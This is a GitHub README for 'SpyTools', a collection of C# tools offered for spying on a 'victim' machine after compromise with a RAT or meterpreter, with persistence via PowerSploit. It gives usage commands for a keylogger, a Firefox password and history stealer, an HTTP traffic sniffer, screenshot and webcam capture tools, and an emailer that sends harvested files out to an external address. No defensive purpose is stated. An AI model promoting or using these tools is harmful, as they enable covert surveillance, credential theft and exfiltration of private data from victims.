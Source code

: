 ![alt tag](https://raw.githubusercontent.com/maxpowersi/SpyTools/master/icon.png)
# SpyTools v1.0
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
## List of tools
### EmailSender
Get all files with some extensions in the current path, and send an email attaching them.
```
EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
```
### FoxyStealer
Copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
```
FoxyStealer.exe
```
### HTTPSniffer
Start to capture all HTTP traffic, and flush them into a txt file.
```
HTTPSniffer.exe ["OutputFileName"] [NumericIntervalToFlushTrafficToDisk]
```
### Keylogger
Start to capture all keys, and flush them into a file.
```
Keylogger.exe ["OutputFileName"] [NumericIntervalToFlushKeysToDisk]
```
### Printscreen
Take a screenshot.
```
Printscreen.exe ["OutputFileName"]
```
### WebcamSnap
Take a picture from the webcam.
```
WebcamSnap.exe ["OutputFileName"]
```
